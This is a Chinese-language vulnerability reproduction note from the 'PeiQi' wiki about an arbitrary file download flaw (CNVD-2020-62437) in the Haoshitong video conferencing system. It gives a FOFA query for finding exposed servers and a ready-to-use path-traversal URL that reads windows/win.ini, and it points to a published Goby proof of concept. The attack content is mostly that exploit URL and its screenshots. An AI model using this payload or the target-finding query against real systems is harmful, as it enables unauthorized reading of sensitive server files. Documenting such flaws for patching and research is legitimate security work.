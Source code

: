 ```yaml
---
title: 银澎云计算 好视通视频会议系统 任意文件下载 CNVD-2020-62437
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 银澎云计算
---
```


# 银澎云计算 好视通视频会议系统 任意文件下载

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 银澎云计算 好视通视频会议系统

## FOFA

> [!NOTE]
>
> app="Hanming-Video-Conferencing"

## 漏洞复现

登录页面如下

![](/img/20210924013817090910.png)

漏洞Url为

```
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```

![](/img/20210924013818714901.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Yinpeng_Hanming_Video_Conferencing__Arbitrary_file_read.json

![](/img/20210924013819012140.png)

![](/img/20210924013819307791.png)
